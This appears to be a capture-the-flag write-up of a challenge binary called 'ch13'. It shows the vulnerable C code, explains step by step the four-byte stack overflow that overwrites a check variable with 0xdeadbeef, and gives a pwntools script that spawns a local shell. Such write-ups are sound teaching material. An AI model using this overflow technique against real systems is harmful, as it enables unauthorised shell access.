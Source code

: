 # ch13

### Summary

This binary has a classic stack-based buffer overflow: `fgets(buf,45,stdin)` reads more bytes than `buf[40]`, letting us overwrite the adjacent `check` variable. By writing the 32-bit value `0xdeadbeef` into `check` we make the program call `system("/bin/bash")` and get a shell. The provided pwntools script fills the buffer and writes that value (using `p32` for little-endian encoding).

---

# Vulnerable code

```c
int var;
int check = 0x04030201;
char buf[40];

fgets(buf,45,stdin);

printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check);

if ((check != 0x04030201) && (check != 0xdeadbeef))
  printf ("\nYou are on the right way!\n");

if (check == 0xdeadbeef) {
  printf("Yeah dude! You win!\nOpening your shell...\n");
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
  printf("Shell closed! Bye.\n");
}
```

---

# Why it’s exploitable (step-by-step)

1. **Buffer size / read size mismatch**

   - `buf` is `char buf[40]` (40 bytes).
   - `fgets(buf,45,stdin)` can read up to **44** characters plus a terminating `\0` (fgets reads at most `n-1` bytes). That means an attacker can write up to 44 bytes into a 40-byte buffer → **4 bytes overflow**.

2. **Stack layout (typical)**

   - On 32-bit x86 compiled without weird reordering, locals end up adjacent. Here `buf` and `check` are adjacent on the stack, so overflowing `buf` by 4 bytes overwrites `check`. (The exploit works with the binary the user provided, which confirms this layout.)

3. **Goal**

   - Set `check` from `0x04030201` to `0xdeadbeef`. When `check == 0xdeadbeef` the program calls `system("/bin/bash")` giving us a shell.

4. **Endianness**

   - On x86 (little-endian), the integer `0xdeadbeef` must be written as bytes `\xef\xbe\xad\xde`. `pwntools.p32(0xdeadbeef)` produces that little-endian 4-byte sequence.

5. **Why the pwntools payload works**

   - `payload = b'A' * 40 + p32(0xdeadbeef)` fills the 40-byte buffer and then overwrites the following 4 bytes (the `check` variable) with `0xdeadbeef`. After the program checks `if (check == 0xdeadbeef)` it spawns a shell.

6. **Minor printf bug**

   - `printf("[check] %p\n", check);` passes an `int` where `%p` expects a pointer. That's undefined behavior, but in practice this prints a hexadecimal representation — still nothing that prevents exploitation. It’s worth noting but not required for the exploit.

---

# The exploit (explained)

Provided exploit script:

```python
from pwn import *

context.log_level = 'info'
context.arch = 'i386'
context.os   = 'linux'

exe = './ch13'
elf = ELF(exe)

p = process(exe)

payload = b'A' * 40 + p32(0xdeadbeef)

print(payload)
p.sendline(payload)
p.interactive()
```

Line-by-line:

- `context.arch = 'i386'` — ensures pwntools helpers like `p32()` use 32-bit little-endian ordering.
- `p = process(exe)` — spawns local process `./ch13`.
- `payload = b'A' * 40 + p32(0xdeadbeef)` — 40 filler bytes to fill `buf`, then 4 bytes to overwrite `check`.
- `p.sendline(payload)` — send the payload (adds newline).
- `p.interactive()` — give you an interactive shell if the exploit succeeded.

---

![result](./img/result.png)
